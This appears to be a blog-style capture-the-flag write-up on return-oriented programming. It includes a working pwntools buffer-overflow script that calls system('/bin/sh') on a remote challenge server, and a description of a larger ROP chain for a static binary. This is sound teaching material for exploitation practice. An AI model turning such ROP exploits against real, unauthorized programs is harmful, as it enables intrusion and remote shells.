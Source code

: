 ```yaml
---
title: Pop Instructions Should be Illegal
date: "2020-07-19 19:10:31.582772"
description: "Using ROP technique to exploit binaries really makes you realize how amazing the 'pop' instruction is"
tags: ["Code", "Binary Exploitation"]
---
```


## swrop

---

FLAG{REDACTED}

---

Simple W(??) rop. For this one all we need is to redirect code execution, using a simple buffer overflow. Only difference is that there is no `win` function.

1. The `system` call is already in the `not_call` function
2. `/bin/sh` is in the data region for some reason.

With that in mind, we call `system`, putting the address to `/bin/sh` at the top of the stack.

```python
#!/usr/bin/python3

from pwn import *

#p = process('./swrop')
p = remote('plsdonthaq.me', 6001)

padding = b'a' * 0x88
binsh = p32(0x080485f0)
system = p32(0x080484ed)

p.sendline(padding + system + binsh)

p.interactive()
```

## static

---

FLAG{REDACTED}

---

Graduating from a single rop gadget, we move to larger rop chains. The goal in this one was to pop a shell.  
Since it is a statically compiled binary, we have a lot of rop gadgets to play with. While there is no `/bin/sh`, the pointer to the buffer we overflow is put loaded into `eax` after the call.

